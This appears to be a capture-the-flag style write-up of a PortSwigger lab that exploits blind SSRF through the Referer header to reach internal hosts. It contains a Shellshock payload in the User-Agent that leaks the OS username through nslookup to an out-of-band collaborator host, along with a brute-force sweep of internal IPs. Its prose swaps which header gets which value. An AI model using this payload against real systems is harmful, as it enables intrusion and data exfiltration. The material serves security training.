 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/de66cc9e-60fc-4114-acf1-88bacbaee217)


## Overview :

Simply identifying a blind SSRF vulnerability that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. Since you cannot view the response from the back-end request, the behavior can't be used to explore content on systems that the application server can reach. 

However, it can still be **leveraged to probe for other vulnerabilities on the server itself or on other back-end systems**. You can blindly **sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities**. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server. 

## Solution :

To solve this lab we need to identify some key information,

- IPs of the internal server `192.168.0.X` running on port **8080** which is vulnerable to shellshock.
- To **exfiltrate the name of the OS user**.

> NOTE - `Referrer-Header` is vulnerable to SSRF.


### Steps -

Clicking on `View Details` of a product, loads the product page wherein the request contains the **Referrer header** which is vulnerable to SSRF.

```http
GET /product?productId=13 HTTP/2
Host: 0ab8003403ef88e280f0265700a4001b.web-security-academy.net
Cookie: session=gaaUVU6ky6kq0RbjJkmRgSmPUITyIzSP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ab8003403ef88e280f0265700a4001b.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

In the `Referrer` header enter the shellshock payload to view the username of the OS user.

```bash
() { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net
```

In the `User-Agent` header, enter the IP of the internal network ie. `192.168.0.x` along with the port `8080`.

> where x - is the last octet which has to be bruteforced from **2-255 **

```http
GET /product?productId=13 HTTP/2
Host: 0ab8003403ef88e280f0265700a4001b.web-security-academy.net
Cookie: session=gaaUVU6ky6kq0RbjJkmRgSmPUITyIzSP
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).wee706d9a9nyr5tsejl120a8ozuqif.oastify.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.x:8080
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

Send the request to intruder, bruteforce thelast octet of the ip from 0-255. If any of the machines in the internal network is not patched and vulnerable to SSRF, then the exploit will be triggered & we will get the user-name of the OS user.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/70d06938-9135-4b22-9563-2d7ebc3a3231)

Start the attack.



















